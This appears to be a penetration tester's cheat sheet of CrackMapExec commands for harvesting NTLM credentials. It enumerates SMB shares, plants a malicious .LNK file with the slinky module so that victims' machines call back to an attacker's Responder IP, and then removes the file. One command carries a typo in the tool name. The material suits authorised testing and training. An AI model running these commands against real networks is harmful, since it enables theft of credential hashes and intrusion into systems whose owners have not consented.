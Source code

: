 # CrackMapExec Examples

**Description:** Examples of CrackMapExec commands that I use throughout penetration tests.

## Harvest NTLMv2/v1 credentials if you have write-access to a share. 

Enumerate the hosts shares \
```crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] --shares```

Create a malicious .LNK file calling back to your Responder.py IP \
```crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP]```

After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file \
```rackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP] CLEANUP=True```

## References
* [Harvest_NTLM_with_Slinky](https://twitter.com/mpgn_x64/status/1453018750253424643)
